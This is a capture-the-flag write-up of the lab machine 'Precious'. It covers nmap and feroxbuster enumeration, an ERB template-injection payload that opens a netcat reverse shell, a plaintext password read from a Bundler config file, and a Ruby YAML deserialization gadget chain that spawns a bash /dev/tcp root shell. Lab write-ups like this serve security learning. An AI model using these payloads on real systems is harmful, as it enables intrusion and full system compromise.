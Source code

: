 #+TITLE:Precious write up
#+AUTHOR: Wordir
#+DATE:25/03/2024

* Enumeration


as always the first step is to ping the target's IP address to actually verify that it is reachable.
so we are going to use nmap to ping it.

#+begin_bash bash
nmap -sn 10.10.11.189
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-03-25 16:52 EDT
Nmap scan report for 10.10.11.189
Host is up (0.051s latency).
Nmap done: 1 IP address (1 host up) scanned in 0.05 seconds
#+end_bash


OK it would appear that the host is active, now it's time to run a scan with nmap to see which ports are open:

** namp scan 

#+begin_bash bash
sudo nmap -sC -sV -O 10.10.11.189                                                                                                 
[sudo] password for kali: 
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-03-25 16:59 EDT
Nmap scan report for 10.10.11.189
Host is up (0.051s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.4p1 Debian 5+deb11u1 (protocol 2.0)
| ssh-hostkey: 
|   3072 84:5e:13:a8:e3:1e:20:66:1d:23:55:50:f6:30:47:d2 (RSA)
|   256 a2:ef:7b:96:65:ce:41:61:c4:67:ee:4e:96:c7:c8:92 (ECDSA)
|_  256 33:05:3d:cd:7a:b7:98:45:82:39:e7:ae:3c:91:a6:58 (ED25519)
80/tcp open  http    nginx 1.18.0
|_http-title: Did not follow redirect to http://precious.htb/
|_http-server-header: nginx/1.18.0
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.94SVN%E=4%D=3/25%OT=22%CT=1%CU=42110%PV=Y%DS=2%DC=I%G=Y%TM=6601
OS:E5B2%P=x86_64-pc-linux-gnu)SEQ(SP=102%GCD=1%ISR=107%TI=Z%CI=Z%II=I%TS=A)
OS:OPS(O1=M53CST11NW7%O2=M53CST11NW7%O3=M53CNNT11NW7%O4=M53CST11NW7%O5=M53C
OS:ST11NW7%O6=M53CST11)WIN(W1=FE88%W2=FE88%W3=FE88%W4=FE88%W5=FE88%W6=FE88)
OS:ECN(R=Y%DF=Y%T=40%W=FAF0%O=M53CNNSNW7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%
OS:F=AS%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T
OS:5(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=
OS:Z%F=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF
OS:=N%T=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40
OS:%CD=S)

Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 20.91 seconds                                                              
#+end_bash

** Adding to /etc/hosts

as you can see we have port 22(ssh) and port 80(http) open,
since to log in with *ssh* we need a username and password,for the moment we will take a look at the website.

inserting the IP address into our browser a domain is returned, which however the public DNS is unable to resolve, it will therefore be
you need to add the IP address and domain name to *"etc/hosts"*



#+begin_bash bash
sudo vim /etc/hosts

and paste this:

10.10.11.189    precious.htb
#+end_bash


** Feroxbuster

now it's time to enumerate the web server paths, to do this, we are goin to use a tool named *feroxbuster*


#+begin_bash bash
feroxbuster -u http://precious.htb/ -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-small.txt 

 ___  ___  __   __     __      __         __   ___
|__  |__  |__) |__) | /  `    /  \ \_/ | |  \ |__
|    |___ |  \ |  \ | \__,    \__/ / \ | |__/ |___
by Ben "epi" Risher 🤓                 ver: 2.10.2
───────────────────────────┬──────────────────────
 🎯  Target Url            │ http://precious.htb/
 🚀  Threads               │ 50
 📖  Wordlist              │ /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-small.txt
 👌  Status Codes          │ All Status Codes!
 💥  Timeout (secs)        │ 7
 🦡  User-Agent            │ feroxbuster/2.10.2
 💉  Config File           │ /etc/feroxbuster/ferox-config.toml
 🔎  Extract Links         │ true
 🏁  HTTP methods          │ [GET]
 🔃  Recursion Depth       │ 4
───────────────────────────┴──────────────────────
 🏁  Press [ENTER] to use the Scan Management Menu™
──────────────────────────────────────────────────
404      GET        1l        2w       18c Auto-filtering found 404-like response and created new filter; toggle off with --dont-filter
200      GET       47l       89w      815c http://precious.htb/stylesheets/style.css
200      GET       18l       42w      483c http://precious.htb/
[####################] - 88s    81631/81631   0s      found:2       errors:0      
[####################] - 88s    81629/81629   930/s   http://precious.htb/ 
#+end_bash


well as we can see , no we didn't get much, so now it's time to find out the technologies behind
the website and analyze the requests with burpsuite


** Whatweb

#+begin_bash bash 
whatweb http://precious.htb/   
http://precious.htb/ [200 OK] Country[RESERVED][ZZ], HTML5, HTTPServer[nginx/1.18.0 + Phusion Passenger(R) 6.0.15],
IP[10.10.11.189], Ruby-on-Rails, Title[Convert Web Page to PDF],
UncommonHeaders[x-content-type-options], X-Frame-Options[SAMEORIGIN], X-Powered-By[Phusion Passenger(R) 6.0.15],
X-XSS-Protection[1; mode=block], nginx[1.18.0]
#+end_bash


now it's time to do some research:


** Phusion Passenger:
Phusion Passenger® is a web server and application server, designed to be fast, robust and lightweight.
It takes a lot of complexity out of deploying web apps.
Supports Ruby, Python, Node.js ...


** Ruby on Rails:
Ruby on Rails (simplified as Rails) is a server-side web application framework written in Ruby under the MIT License.
Rails is a model–view–controller (MVC) framework.

Researching a bit about Rails we learn that it is often used with *ERB* (Embedded Ruby) 
a templating system that allows you to embed Ruby code directly into your text files, including *HTML*
*generating dynamic views*

*How does ERB work?*

ERB processes your text files and looks for special tags that contain Ruby code. These tags tell ERB where to execute Ruby code and insert the results into the final output.
There are two types of ERB tags:

*<% Ruby code %>* : This tag is used to execute Ruby code without producing any output. For example, you can use it for looping, conditionals, or variable assignments.

*<%= Ruby code %>* : This tag is used to execute Ruby code and produce output that will be included in the final document. For example, you can use it to insert the value of a variable or the result of a method call.

so now it's time to open burpsuite and do some tests

** Burpsuite

* Exploit

#+begin_bash
POST / HTTP/1.1
Host: precious.htb
Content-Length: 32
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://precious.htb
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/122.0.6261.112 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://precious.htb/
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Connection: close

*url=http%3a//sda%250a<%25%3d+system("whoami")+%25>*

#+end_bash

well looking at the response it seems that the website ignores our malicious payload and correctly generates the pdf,
(the website in question converts some html text to a pdf)
however we do not receive the output of our command, let's try a reverse shell.

** Reverse shell:

payload : *url=http%3a//sda%250a<%25%3d+system("busybox nc 10.10.14..9 4444 -e sh")+%25>*

results:
#+begin_bash bash
nc -lvnp 4444                
listening on [any] 4444 ...
connect to [10.10.14.9] from (UNKNOWN) [10.10.11.189] 46244
ls
app
config
config.ru
Gemfile
Gemfile.lock
pdf
public
#+end_bash

it worked !!!

now it's time to consolidate the rev with pawncat and after that is time to enumarate the system.


#+begin_bash bash

ruby@precious:/var/www/pdfapp$ whoami
ruby
#+end_bash

we are ruby, on the machine the are two more users, root and henry,
enumerating the system we found nothing that could be an attack vector except some files that we could not execute or modify.
so now since we have port 22 open we'll try to find henry's credentials around the system.

we find an Insecure Gem Configuration: The .bundle/config file is used by Bundler, a Ruby gem manager.
Bundler can cache gem credentials, including API keys or access tokens, in this file.
This is generally not recommended for production environments as it exposes sensitive information.

in fact we find Henry credentials:

#+begin_bash bash
(remote) ruby@precious:/home/ruby/.bundle$ cat config
---
BUNDLE_HTTPS://RUBYGEMS__ORG/: "henry:Q3c1AqGHtoI0aXAYFH"
#+end_bash

** SSH login

let's try to login with SSH, logged succesfully, let's get the *user flag*

#+begin_bash bash 
cat user.txt 
4e48f9563d480c07a9b18816b9200550
#+end_bash

time to lists sudo permission with *sudo -l*


#+begin_bash bash
sudo -l
Matching Defaults entries for henry on precious:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User henry may run the following commands on precious:
    (root) NOPASSWD: /usr/bin/ruby /opt/update_dependencies.rb

#+end_bash

so now let's take a look at the script in question:

#+begin_ruby ruby

# Compare installed dependencies with those specified in "dependencies.yml"
require "yaml"
require 'rubygems'

# TODO: update versions automatically
def update_gems()
end

def list_from_file
    YAML.load(File.read("dependencies.yml"))
end

def list_local_gems
    Gem::Specification.sort_by{ |g| [g.name.downcase, g.version] }.map{|g| [g.name, g.version.to_s]}
end

gems_file = list_from_file
gems_local = list_local_gems

gems_file.each do |file_name, file_version|
    gems_local.each do |local_name, local_version|
        if(file_name == local_name)
            if(file_version != local_version)
                puts "Installed version differs from the one specified in file: " + local_name
            else
                puts "Installed version is equals to the one specified in file: " + local_name
            end
        end
    end
end


#+end_ruby


as we can se the script try to read a file *dependencies.yaml* which is passed with a relative path, so when the script is executed it will search the current directory ,
also we can see that the .yaml file is read with the following function *YAML.load(File.read(file.yaml))* , it's time to serch if the function is someway vulnerable


and yes, we found it:

* Escalation

*Ruby – Insecure Deserialization – YAML (Privilege Escalation)*

Deserialization is the process of transforming serialized data, such as YAML or JSON, back into its original form. Insecure deserialization occurs when untrusted data is deserialized without proper validation, leading to potential security risks. Attackers can exploit this vulnerability to execute arbitrary code, bypass authentication,
or perform other malicious activities.

now to perform the correct exploit we need to see the ruby version.


#+begin_bash bash 
henry@precious:~$ ruby -v
ruby 2.7.4p191 (2021-07-07 revision a21a3b7d23) [x86_64-linux-gnu]
#+end_bash


here the exploit code:

#+begin_ruby ruby

- !ruby/object:Gem::Installer
    i: x
- !ruby/object:Gem::SpecFetcher
    i: y
- !ruby/object:Gem::Requirement
  requirements:
    !ruby/object:Gem::Package::TarReader
    io: &1 !ruby/object:Net::BufferedIO
      io: &1 !ruby/object:Gem::Package::TarReader::Entry
         read: 0
         header: "abc"
      debug_output: &1 !ruby/object:Net::WriteAdapter
         socket: &1 !ruby/object:Gem::RequestSet
             sets: !ruby/object:Net::WriteAdapter
                 socket: !ruby/module 'Kernel'
                 method_id: :system
             git_set: "bash -c 'bash -i >& /dev/tcp/<local-ip>/<local-port> 0>&1'"
         method_id: :resolve

#+end_ruby


now launch *henry@precious:~$ sudo /usr/bin/ruby /opt/update_dependencies.rb* and we get a rev shell as root

#+begin_bash bash 

(remote) root@precious:/root#  whoami ; cd /root ; cat root.txt
root
892ffc8761ddcbb73b41b471ca97765d

#+end_bash
